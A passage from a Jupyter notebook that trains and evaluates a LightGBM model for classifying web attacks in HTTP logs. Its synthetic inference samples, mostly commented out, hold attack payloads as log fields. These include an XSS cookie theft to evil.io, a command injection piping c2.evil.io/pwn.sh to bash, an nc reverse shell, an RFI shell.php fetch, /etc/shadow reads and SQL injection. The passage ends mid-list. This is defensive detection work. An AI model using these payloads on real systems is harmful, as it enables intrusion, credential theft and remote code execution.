    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (Recall per Class) ─────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=class_names,
    yticklabels=class_names,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\lgbm_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()
print("✅ LightGBM confusion matrix rendered.")



✅ LightGBM class-wise performance chart rendered.


In [66]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────

report_dict = {}

report_str = classification_report(
    y_test_raw,
    lgbm_pred,
    target_names=CLASS_NAMES,
    output_dict=True,
    zero_division=0
)

metrics_df = pd.DataFrame(report_str).T.loc[
    CLASS_NAMES,
    ["precision", "recall", "f1-score"]
]

metrics_df = metrics_df.astype(float)

fig, ax = plt.subplots(figsize=(14, 6))

x = np.arange(len(CLASS_NAMES))
width = 0.25

bars1 = ax.bar(
    x - width,
    metrics_df["precision"],
    width,
    label="Precision",
    color="#3498db",
    edgecolor="white"
)

bars2 = ax.bar(
    x,
    metrics_df["recall"],
    width,
    label="Recall",
    color="#2ecc71",
    edgecolor="white"
)

bars3 = ax.bar(
    x + width,
    metrics_df["f1-score"],
    width,
    label="F1-Score",
    color="#e74c3c",
    edgecolor="white"
)

ax.set_title("LightGBM — Per-Class Precision / Recall / F1 (Test Set)",
             fontsize=13, fontweight="bold")

ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(CLASS_NAMES, rotation=25, ha="right")
ax.set_ylim(0, 1.10)

ax.legend(fontsize=10)

ax.axhline(
    0.90,
    color="gray",
    linestyle="--",
    linewidth=0.8,
    alpha=0.7
)

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(
            bar.get_x() + bar.get_width() / 2,
            h + 0.01,
            f"{h:.2f}",
            ha="center",
            va="bottom",
            fontsize=7
        )

plt.tight_layout()
plt.savefig(r"D:\c4\results\lgbm_class_performance.png",
            bbox_inches="tight",
            dpi=110)

plt.show()

print("✅ LightGBM class-wise performance chart rendered.")



✅ LightGBM class-wise performance chart rendered.


In [67]:
# ── Class-wise Performance Chart ─────────────────────────────────────────────

report_str = classification_report(
    y_test_raw,
    lgbm_pred,
    target_names=CLASS_NAMES,
    output_dict=True,
    zero_division=0
)

metrics_df = pd.DataFrame(report_str).T.loc[
    CLASS_NAMES,
    ["precision", "recall", "f1-score"]
].astype(float)

# ------------------------------------------------------------------
# Remove class 0 (benign_suspicious) for plotting
# ------------------------------------------------------------------
metrics_df = metrics_df.iloc[1:]
class_names = CLASS_NAMES[1:]

fig, ax = plt.subplots(figsize=(14, 6))

x = np.arange(len(class_names))
width = 0.25

bars1 = ax.bar(
    x - width,
    metrics_df["precision"],
    width,
    label="Precision",
    color="#3498db",
    edgecolor="white"
)

bars2 = ax.bar(
    x,
    metrics_df["recall"],
    width,
    label="Recall",
    color="#2ecc71",
    edgecolor="white"
)

bars3 = ax.bar(
    x + width,
    metrics_df["f1-score"],
    width,
    label="F1-Score",
    color="#e74c3c",
    edgecolor="white"
)

ax.set_title(
    "LightGBM — Per-Class Precision / Recall / F1 (Test Set)",
    fontsize=13,
    fontweight="bold"
)

ax.set_xlabel("Attack Class")
ax.set_ylabel("Score")
ax.set_xticks(x)
ax.set_xticklabels(class_names, rotation=25, ha="right")
ax.set_ylim(0, 1.10)

ax.legend(fontsize=10)

ax.axhline(
    0.90,
    color="gray",
    linestyle="--",
    linewidth=0.8,
    alpha=0.7
)

for bar_group in [bars1, bars2, bars3]:
    for bar in bar_group:
        h = bar.get_height()
        ax.text(
            bar.get_x() + bar.get_width() / 2,
            h + 0.01,
            f"{h:.2f}",
            ha="center",
            va="bottom",
            fontsize=7
        )

plt.tight_layout()
plt.savefig(
    r"D:\c4\results\lgbm_class_performance.png",
    bbox_inches="tight",
    dpi=110
)

plt.show()

print("✅ LightGBM class-wise performance chart rendered.")



Top 20 Features by Importance:


,Feature,Importance,Importance_pct,Category
0,symbol_ratio,14456,11.1700,⚪ Generic
1,response_size,13514,10.4400,⚪ Generic
2,query_length,13317,10.2900,⚪ Generic
3,entropy_score,9513,7.3500,⚪ Generic
4,day,8865,6.8500,⚪ Generic
5,hour,7948,6.1400,⚪ Generic
6,user_agent_length,7587,5.8600,⚪ Generic
7,url_length,6936,5.3600,⚪ Generic
8,encoded_ratio,6290,4.8600,⚪ Generic
9,status_code,5296,4.0900,⚪ Generic


In [68]:
# ── LightGBM Feature Importance ──────────────────────────────────────────────

lgbm_model = lgbm_pipeline.named_steps["model"]

importance = lgbm_model.feature_importances_

feat_map = {name: importance[i] for i, name in enumerate(FEATURE_COLS)}

fi_df = pd.DataFrame(list(feat_map.items()), columns=["Feature", "Importance"])
fi_df = fi_df.sort_values("Importance", ascending=False).reset_index(drop=True)

fi_df["Importance_pct"] = (fi_df["Importance"] / fi_df["Importance"].sum() * 100).round(2)

fi_df["Category"] = fi_df["Feature"].apply(
    lambda f: "🔴 Security" if any(s in f for s in ["sql","xss","cmd","lfi","rfi","traversal","brute","threat"])
    else "🔵 Behavior" if any(s in f for s in ["ip","requests","unique","density","attack"])
    else "⚪ Generic"
)

# ── Plot Top 20 Features ──────────────────────────────────────────────────────

top_n = 20
top_features = fi_df.head(top_n)

plt.figure(figsize=(12, 8))
plt.barh(
    top_features["Feature"][::-1],
    top_features["Importance"][::-1],
    edgecolor="white"
)

plt.title("LightGBM Feature Importance (Top 20)", fontsize=14, fontweight="bold")
plt.xlabel("Importance Score")
plt.ylabel("Feature")

plt.tight_layout()
plt.savefig(r"D:\c4\results\lgbm_feature_importance.png",
            bbox_inches="tight",
            dpi=110)
plt.show()

# ── Display Table ─────────────────────────────────────────────────────────────

print("Top 20 Features by Importance:")
display(fi_df.head(20))

In [69]:
# ── Save complete pipeline ────────────────────────────────────────────────────

joblib.dump(lgbm_pipeline, MODEL_SAVE_PATH, compress=3)

file_size_mb = os.path.getsize(MODEL_SAVE_PATH) / 1024 / 1024

print("✅ LightGBM pipeline saved.")
print(f"   Path       : {MODEL_SAVE_PATH}")
print(f"   Size       : {file_size_mb:.2f} MB")

# ── Save metadata ─────────────────────────────────────────────────────────────

lgbm_model = lgbm_pipeline.named_steps["model"]

meta = {
    "model_version": "1.0.0",
    "saved_at": datetime.now().isoformat(),
    "feature_cols": FEATURE_COLS,
    "class_names": CLASS_NAMES,
    "num_classes": NUM_CLASSES,
    "test_accuracy": round(acc, 4),
    "test_f1_weighted": round(f1_w, 4),
    "cv_f1_mean": round(np.mean(cv_scores), 4),
    "cv_f1_std": round(np.std(cv_scores), 4),

    # LightGBM-specific metadata
    "lgbm_n_estimators": lgbm_model.n_estimators,
    "lgbm_num_leaves": lgbm_model.num_leaves,
    "lgbm_learning_rate": lgbm_model.learning_rate,

    "train_rows": len(df_train_raw),
    "val_rows": len(df_val_raw),
    "test_rows": len(df_test_raw),
}

meta_path = MODEL_SAVE_PATH.replace(".pkl", "_metadata.json")

with open(meta_path, "w") as f:
    json.dump(meta, f, indent=2)

print(f"   Metadata   : {meta_path}")

# ── Verify round-trip ─────────────────────────────────────────────────────────

loaded_pipeline = joblib.load(MODEL_SAVE_PATH)

test_pred_loaded = loaded_pipeline.predict(df_test_raw.head(5))

print("\n✅ Round-trip verification passed.")
print(f"   Predictions from loaded pipeline: {[CLASS_NAMES[p] for p in test_pred_loaded]}")

INFO: [Cleaner] Cleaning complete. Output shape: (5, 10)


✅ LightGBM pipeline saved.
   Path       : ThreatDetectionPipeline.pkl
   Size       : 5.98 MB
   Metadata   : ThreatDetectionPipeline_metadata.json

✅ Round-trip verification passed.
   Predictions from loaded pipeline: ['benign_suspicious', 'xss', 'rfi', 'benign_suspicious', 'sql_injection']


In [70]:
# # ── Synthetic Inference Samples ──────────────────────────────────────────────
# # These are crafted Apache log entries not present in the training data.

# INFERENCE_SAMPLES = [
#     {
#         "attack_type_true" : "normal",
#         "timestamp"        : "2025-02-10 14:23:11",
#         "source_ip"        : "203.0.113.55",
#         "http_method"      : "GET",
#         "url"              : "/products/featured",
#         "query_parameters" : "category=electronics&sort=price&page=2",
#         "status_code"      : 200,
#         "response_size"    : 45230,
#         "referrer"         : "https://google.com/search?q=electronics",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
#     },
#     {
#         "attack_type_true" : "benign_suspicious",
#         "timestamp"        : "2025-02-10 02:17:44",
#         "source_ip"        : "192.0.2.101",
#         "http_method"      : "GET",
#         "url"              : "/admin",
#         "query_parameters" : "debug=true&test=1",
#         "status_code"      : 403,
#         "response_size"    : 512,
#         "referrer"         : "-",
#         "user_agent"       : "python-requests/2.31.0",
#     },
#     {
#         "attack_type_true" : "sql_injection",
#         "timestamp"        : "2025-02-10 09:05:33",
#         "source_ip"        : "198.51.100.77",
#         "http_method"      : "GET",
#         "url"              : "/users/search",
#         "query_parameters" : "name=' UNION SELECT username,password,NULL FROM accounts--",
#         "status_code"      : 500,
#         "response_size"    : 1024,
#         "referrer"         : "-",
#         "user_agent"       : "sqlmap/1.7.8#stable (https://sqlmap.org)",
#     },
#     {
#         "attack_type_true" : "xss",
#         "timestamp"        : "2025-02-10 11:44:22",
#         "source_ip"        : "198.51.100.22",
#         "http_method"      : "POST",
#         "url"              : "/comments/new",
#         "query_parameters" : "body=<img src=x onerror=fetch('https://evil.io/?c='+document.cookie)>&post_id=41",
#         "status_code"      : 200,
#         "response_size"    : 891,
#         "referrer"         : "https://example.com/post/41",
#         "user_agent"       : "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0",
#     },
#     {
#         "attack_type_true" : "lfi",
#         "timestamp"        : "2025-02-10 08:32:17",
#         "source_ip"        : "203.0.113.88",
#         "http_method"      : "GET",
#         "url"              : "/download",
#         "query_parameters" : "file=../../../../etc/shadow&format=raw",
#         "status_code"      : 403,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "curl/8.1.2",
#     },
#     {
#         "attack_type_true" : "rfi",
#         "timestamp"        : "2025-02-10 16:08:55",
#         "source_ip"        : "192.0.2.200",
#         "http_method"      : "GET",
#         "url"              : "/cms/render",
#         "query_parameters" : "template=http://attacker.io/shell.php%00&lang=en",
#         "status_code"      : 500,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Wget/1.21.4 (linux-gnu)",
#     },
#     {
#         "attack_type_true" : "directory_traversal",
#         "timestamp"        : "2025-02-10 13:21:09",
#         "source_ip"        : "198.51.100.44",
#         "http_method"      : "GET",
#         "url"              : "/static/images/../../../../etc/nginx/nginx.conf",
#         "query_parameters" : "",
#         "status_code"      : 400,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (compatible; Googlebot/2.1)",
#     },
#     {
#         "attack_type_true" : "command_injection",
#         "timestamp"        : "2025-02-10 21:58:01",
#         "source_ip"        : "192.0.2.150",
#         "http_method"      : "POST",
#         "url"              : "/api/v2/ping",
#         "query_parameters" : "host=8.8.8.8;curl${IFS}http://c2.evil.io/pwn.sh|bash&timeout=5",
#         "status_code"      : 200,
#         "response_size"    : 256,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120.0.0.0",
#     },
#     {
#         "attack_type_true" : "bruteforce",
#         "timestamp"        : "2025-02-10 03:44:10",
#         "source_ip"        : "203.0.113.19",
#         "http_method"      : "POST",
#         "url"              : "/wp-login.php",
#         "query_parameters" : "log=admin&pwd=password123&wp-submit=Log+In",
#         "status_code"      : 401,
#         "response_size"    : 1024,
#         "referrer"         : "https://example.com/wp-login.php",
#         "user_agent"       : "Mozilla/5.0 (compatible; Hydra)",
#     },
# ]


# INFERENCE_SAMPLES = [

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 10:15:42",
#         "source_ip": "145.77.23.91",
#         "http_method": "GET",
#         "url": "/blog/article/125",
#         "query_parameters": "tag=technology&page=1",
#         "status_code": 200,
#         "response_size": 28451,
#         "referrer": "https://bing.com/search?q=technology+blogs",
#         "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_2) Safari/605.1.15",
#     },

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 18:07:13",
#         "source_ip": "81.44.192.33",
#         "http_method": "POST",
#         "url": "/account/settings",
#         "query_parameters": "language=en&timezone=UTC",
#         "status_code": 200,
#         "response_size": 3512,
#         "referrer": "https://example.com/profile",
#         "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/124.0",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:55:01",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/api/users",
#         "query_parameters": "id=5' AND SLEEP(5)--",
#         "status_code": 500,
#         "response_size": 512,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:56:44",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/search",
#         "query_parameters": "q=admin') OR ('1'='1",
#         "status_code": 500,
#         "response_size": 423,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "xss",
#         "timestamp": "2025-03-14 12:21:33",
#         "source_ip": "172.61.88.17",
#         "http_method": "POST",
#         "url": "/support/ticket",
#         "query_parameters": "message=<svg/onload=alert(document.domain)>",
#         "status_code": 200,
#         "response_size": 1102,
#         "referrer": "https://example.com/help",
#         "user_agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) Firefox/124.0",
#     },

#     {
#         "attack_type_true": "directory_traversal",
#         "timestamp": "2025-03-14 13:11:52",
#         "source_ip": "44.203.11.18",
#         "http_method": "GET",
#         "url": "/files/..%2f..%2f..%2f..%2fwindows/win.ini",
#         "query_parameters": "",
#         "status_code": 403,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "curl/8.5.0",
#     },

#     {
#         "attack_type_true": "lfi",
#         "timestamp": "2025-03-14 15:39:44",
#         "source_ip": "37.122.90.201",
#         "http_method": "GET",
#         "url": "/viewer",
#         "query_parameters": "page=/proc/self/environ",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "python-requests/2.32.0",
#     },

#     {
#         "attack_type_true": "rfi",
#         "timestamp": "2025-03-14 15:41:28",
#         "source_ip": "37.122.90.202",
#         "http_method": "GET",
#         "url": "/index.php",
#         "query_parameters": "module=https://evil-cdn.net/backdoor.txt",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "Wget/1.24",
#     },

#     {
#         "attack_type_true": "command_injection",
#         "timestamp": "2025-03-14 22:06:55",
#         "source_ip": "66.91.220.5",
#         "http_method": "POST",
#         "url": "/tools/traceroute",
#         "query_parameters": "host=8.8.8.8&&nc${IFS}-e${IFS}/bin/sh${IFS}10.10.10.5${IFS}4444",
#         "status_code": 500,
#         "response_size": 128,
#         "referrer": "-",
#         "user_agent": "Mozilla/5.0 (Linux; Android 14)",
#     },

#     {
#         "attack_type_true": "bruteforce",
#         "timestamp": "2025-03-14 01:12:20",
#         "source_ip": "104.166.18.200",
#         "http_method": "POST",
#         "url": "/administrator/login",
#         "query_parameters": "username=root&password=toor",
#         "status_code": 401,
#         "response_size": 731,
#         "referrer": "https://example.com/administrator/login",
#         "user_agent": "Hydra",
#     },

# ]


INFERENCE_SAMPLES = [
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:01:10","source_ip":"10.1.1.10","http_method":"GET","url":"/home","query_parameters":"lang=en","status_code":200,"response_size":12034,"referrer":"https://google.com","user_agent":"Mozilla/5.0 Chrome/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:02:12","source_ip":"10.1.1.11","http_method":"GET","url":"/products","query_parameters":"page=1","status_code":200,"response_size":14000,"referrer":"-","user_agent":"Mozilla/5.0 Firefox/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:03:20","source_ip":"10.1.1.12","http_method":"POST","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":800,"referrer":"https://site.com","user_agent":"Safari/605"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:04:22","source_ip":"10.1.1.13","http_method":"GET","url":"/about","query_parameters":"","status_code":200,"response_size":5000,"referrer":"-","user_agent":"Chrome/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:05:30","source_ip":"10.1.1.14","http_method":"GET","url":"/blog","query_parameters":"tag=tech","status_code":200,"response_size":9000,"referrer":"google","user_agent":"Edge/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:06:40","source_ip":"10.1.1.15","http_method":"GET","url":"/contact","query_parameters":"","status_code":200,"response_size":3000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:07:55","source_ip":"10.1.1.16","http_method":"GET","url":"/pricing","query_parameters":"plan=pro","status_code":200,"response_size":7000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:08:10","source_ip":"10.1.1.17","http_method":"POST","url":"/subscribe","query_parameters":"email=test@mail.com","status_code":200,"response_size":1200,"referrer":"site","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:09:33","source_ip":"10.1.1.18","http_method":"GET","url":"/dashboard","query_parameters":"","status_code":200,"response_size":15000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:10:44","source_ip":"10.1.1.19","http_method":"GET","url":"/help","query_parameters":"topic=faq","status_code":200,"response_size":6000,"referrer":"google","user_agent":"Safari"}
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:00:10","source_ip":"172.16.0.10","http_method":"GET","url":"/search","query_parameters":"q=' or 1=1","status_code":500,"response_size":900,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:01:12","source_ip":"172.16.0.11","http_method":"GET","url":"/users","query_parameters":"id=1'--","status_code":500,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:02:15","source_ip":"172.16.0.12","http_method":"GET","url":"/login","query_parameters":"user=admin' OR '1'='1","status_code":401,"response_size":700,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:03:18","source_ip":"172.16.0.13","http_method":"GET","url":"/api","query_parameters":"id=1 UNION SELECT 1,2,3","status_code":500,"response_size":1200,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:04:20","source_ip":"172.16.0.14","http_method":"POST","url":"/auth","query_parameters":"password=' OR sleep(5)--","status_code":500,"response_size":900,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:05:25","source_ip":"172.16.0.15","http_method":"GET","url":"/product","query_parameters":"id=1 AND 1=1","status_code":200,"response_size":1100,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:06:30","source_ip":"172.16.0.16","http_method":"GET","url":"/search","query_parameters":"q=%27%20UNION%20SELECT%20NULL--","status_code":500,"response_size":1300,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:07:35","source_ip":"172.16.0.17","http_method":"GET","url":"/api","query_parameters":"id=1; DROP TABLE users","status_code":500,"response_size":1000,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:08:40","source_ip":"172.16.0.18","http_method":"POST","url":"/login","query_parameters":"user=admin'--","status_code":401,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:09:45","source_ip":"172.16.0.19","http_method":"GET","url":"/users","query_parameters":"id=1 OR SLEEP(10)--","status_code":500,"response_size":1400,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:00:10","source_ip":"192.168.1.10","http_method":"POST","url":"/comment","query_parameters":"msg=<script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:01:12","source_ip":"192.168.1.11","http_method":"POST","url":"/post","query_parameters":"text=<img src=x onerror=alert(1)>","status_code":200,"response_size":850,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:02:14","source_ip":"192.168.1.12","http_method":"GET","url":"/search","query_parameters":"q=<svg/onload=alert(1)>","status_code":200,"response_size":800,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:03:16","source_ip":"192.168.1.13","http_method":"POST","url":"/feedback","query_parameters":"msg=javascript:alert(1)","status_code":200,"response_size":700,"referrer":"-","user_agent":"Chrome"},
